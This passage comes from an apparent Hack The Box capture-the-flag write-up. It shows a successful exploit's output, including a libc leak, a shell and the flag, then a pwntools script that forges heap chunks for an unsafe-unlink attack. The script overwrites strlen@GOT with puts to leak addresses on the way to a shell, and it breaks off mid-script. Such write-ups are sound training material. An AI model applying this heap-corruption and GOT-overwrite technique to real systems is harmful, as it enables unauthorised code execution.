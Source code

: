 And it works perfectly!

```
[+] Free Leak: 0x7fe8285324f0
[+] Libc base: 0x7fe8284ae000
[*] Switching to interactive mode
$ cat flag
HTB{Singl3?_NO!_D0ubl3?_NO!_Tr1pl3_Unsaf3_Unlink}
```

## Final Exploit

```python
from pwn import *

elf = context.binary = ELF('./chapter1', checksec=False)

if args.REMOTE:
    p = remote('178.62.90.208', 30352)
    libc = ELF('./libc-remote.so')
else:
    p = process()
    libc = elf.libc

CHUNKLIST = 0x6020c0

def alloc(size=0x98, data='a'):
    p.sendlineafter('>> ', '1')
    p.sendlineafter('Size: ', str(size))
    p.sendlineafter('Data: ', data)

def free(idx):
    p.sendlineafter('>> ', '3')
    p.sendlineafter('Index: ', str(idx))

def edit(idx, data='a'):
    p.sendlineafter('>> ', '2')
    p.sendlineafter('Index: ', str(idx))
    p.sendlineafter('Data: ', data)

alloc()
alloc(data='/bin/sh\x00')
alloc()
alloc(data='A' * 0x98)
alloc()

fake_chunk = flat(
    0x0,                # fake prev_size (of fake chunk)
    0x91,               # fake size
    CHUNKLIST,          # fd (controlled)
    CHUNKLIST + 8,      # bk (controlled)
    b'A' * (0x70),      # pad to -8 off max size so we can fake prev_size
    0x90                # fake prev_size
)
fake_chunk += p16(0xa0) # overwrite PREV_IN_USE

edit(3, fake_chunk)
free(4)

# now we write strlen@GOT to the chunklist
edit(3, p64(elf.got['strlen']))
edit(0, p64(elf.plt['puts']))

# now when we edit() we read chunk contentx
```